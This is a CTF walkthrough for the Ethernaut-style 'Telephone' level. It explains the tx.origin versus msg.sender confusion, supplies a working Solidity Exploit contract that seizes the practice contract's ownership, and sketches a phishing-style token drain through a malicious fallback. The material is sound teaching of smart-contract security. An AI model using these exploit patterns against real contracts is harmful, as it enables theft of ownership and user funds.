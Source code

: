 # 04. Telephone
<sup>Difficulty 1/10</sup>

Claim ownership of the contract below to complete this level.

Things that might help:

- See the Help page above, section "Beyond the console"

## Solution

In order to change the owner of the contract we can exploit the following function:

```solidity
function changeOwner(address _owner) public {
  if (tx.origin != msg.sender) {
    owner = _owner;
  }
}
```

`tx.origin` and `msg.sender` difference is explained [here](https://ethereum.stackexchange.com/a/1892)

To successfully take the ownership of the contract we need to exploit another contract.

In Remix IDE:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
// -------------------------------- Original contract 
contract Telephone {
  address public owner;
  constructor() public {
    owner = msg.sender;
  }
  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
// -------------------------------- Exploit           
contract Exploit {
    address originalAddress = 0x2BeE993f44d271A87C858367DFEaE036b20e5ADf;  // Change this with the challenge address
    Telephone public originalContract = Telephone(originalAddress);
    function takeOwnership(address me) public {
        originalContract.changeOwner(me);
    }
}
```

In this way, when we call `Exploit.takeOwnership`, `tx.origin` will be equals to `player`, while `msg.sender` will be equal to `Exploit` contract address

```javascript
// Before executing the contract exploit
await contract.owner() == player
// -> false
// After exploit execution
await contract.owner() == player
// -> true
```

## OZ Corner

While this example may be simple, confusing `tx.origin` with `msg.sender` can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/).

An example of a possible attack is outlined below.

1. Use `tx.origin` to determine whose tokens to transfer, e.g.

```solidity
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}
```

2. Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.

```solidity
function () payable {
  token.transfer(attackerAddress, 10000);
}
```

3. In this scenario, `tx.origin` will be the victim's address (while `msg.sender` will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker.
